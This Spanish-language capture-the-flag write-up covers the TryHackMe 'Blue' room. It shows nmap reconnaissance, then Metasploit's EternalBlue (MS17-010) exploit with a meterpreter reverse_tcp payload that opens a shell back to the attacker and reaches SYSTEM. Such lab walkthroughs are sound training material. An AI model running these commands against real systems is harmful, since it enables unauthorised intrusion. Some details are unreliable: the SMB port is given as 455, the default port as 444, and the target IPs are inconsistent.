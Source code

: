 ```yaml
---
title : Máquina|<font color="#5d9b9b">Blue</font>
published : True
---
```


<p>Nombre : Blue</p>
<p>Url : <a href="https://tryhackme.com/room/blue">Blue</a></p>
<p></p>

<h2><font color="white"><center># blue</center></font></h2>
<p>Empezaremos con el reconocimiento de la maquina</p>
> ping -c 1 10.10.157.254
<p></p>
<img src="/imgs/blue/blue0.jpg"/>
<p>Vemos que en la imagen el ttl es de 127 lo que indica que es una maquina windows, ahora vemos que puertos están abiertos.</p>
> nmap --min-rate 5000 -Pn -sS --open 10.10.157.254 -o allports
<p></p>
<img src="/imgs/blue/blue1.jpg"/>
<p>tiene el puerto smb abierto <font color="gold">455</font> veremos si tiene vulnerabilidades, con nmap.</p>
> nmap --script smb-vuln* 10.10.127.254
<p></p>
<img src="/imgs/blue/blue2.jpg"/>
<p>Al paracer es vulnerable a <font color="yellow">( ms17-010 EternalBlue )</font>, ahora explotemos con <font color="gold">msfconsole</font>.</p>
<p>Usamos el exploit EternalBlue </p>
> use exploit/windows/smb/ms17_010_eternalblue
<p></p>
<img src="/imgs/blue/blue3.jpg"/>
<p>Ahora indicamos el payload que queremos ejecutar una vez ganado acceso a la maquina.</p>
> set payload windows/meterpreter/reverse_tcp
<p></p>
<img src="/imgs/blue/blue4.jpg"/>
<p>Indicamos la ip de la maquina victima con <font color="gold">set rhosts</font>.</p>
<img src="/imgs/blue/blue5.jpg"/>
<p>Ahora indicamos nuestra ip tun0 de nuestra vpn de tryHackMe.</p>
<img src="/imgs/blue/blue6.jpg"/>
<p>Seguidamente cambiamos el puerto 444 que viene por defecto para el payload, en caso de que haya un firewall indicado para cerrar conecciones
por el puerto 444.</p>
<img src="/imgs/blue/blue7.jpg"/>
<p>Seguidamente ejecutamos <font color="red">exploit</font> para iniciar el ataque.</p>
<img src="/imgs/blue/blue8.jpg"/>
<p>Y listo si ejecutas el comando Shell, y pones whoami seras autority system</p>
<p>Ok maquina vulnerada</p>
3
